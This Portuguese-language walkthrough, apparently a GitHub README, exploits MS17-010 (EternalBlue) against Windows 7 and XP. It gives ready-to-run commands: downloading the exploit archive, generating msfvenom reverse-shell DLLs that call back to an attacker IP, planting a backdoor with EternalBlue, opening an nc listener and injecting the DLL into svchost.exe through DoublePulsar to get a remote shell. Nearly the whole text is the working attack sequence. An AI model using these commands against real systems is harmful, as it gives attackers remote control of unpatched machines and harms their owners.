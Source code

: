 Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/win7xp/
```
### Exploração
Gerando payload reverse shell non-staged com **msfvenom** para explorar **Windows 32 bits**
```
msfvenom -p windows/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```

ou

Gerando payload reverse shell non-staged com **msfvenom** para explorar **Windows 64 bits**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.20.1.53 LPORT=8080 -f dll > shell.dll
```
- IP da máquina atacante: 172.20.1.53
- Porta que irá receber a conexão reversa: 8080
<br>

Instalando backdoor no servidor alvo com EternalBlue **(Windows 7)**:
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target WIN72K8R2 --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```

ou

Instalando backdoor no servidor alvo com EternalBlue **(Windows XP)**:
```
wine Eternalblue-2.2.0.exe --TargetIp 172.16.1.145 --Target XP --DaveProxyPort=0 --NetworkTimeout 60 --TargetPort 445 --VerifyTarget True --VerifyBackdoor True --MaxExploitAttempts 3 --GroomAllocations 12 --OutConfig 1.txt
```
- IP do servidor alvo: 172.16.1.145
<br>

Preparando a máquina atacante para receber a conexão reversa **(em outro terminal)**:
```
rlwrap nc -vnlp 8080
```
<br>

Enviando shellcode para injetar DLL com DoublePulsar **(para explorar Windows 32 bits)**:
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x86 --Function Rundll
```

ou

Enviando shellcode para injetar DLL com DoublePulsar **(para explorar Windows 64 bits)**:
```
wine Doublepulsar-1.3.1.exe --OutConfig 2.txt --TargetIp 172.16.1.145 --TargetPort 445 --DllPayload shell.dll --DllOrdinal 1 --ProcessName svchost.exe --ProcessCommandLine --Protocol SMB --Architecture x64 --Function Rundll
```
- IP do servidor alvo: 172.16.1.145
<br>
 
Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comando do Windows:
![image](https://user-images.githubusercontent.com/76706456/172243037-3162bf1f-c6ad-45d6-a841-f9cd5cbc5c1b.png)
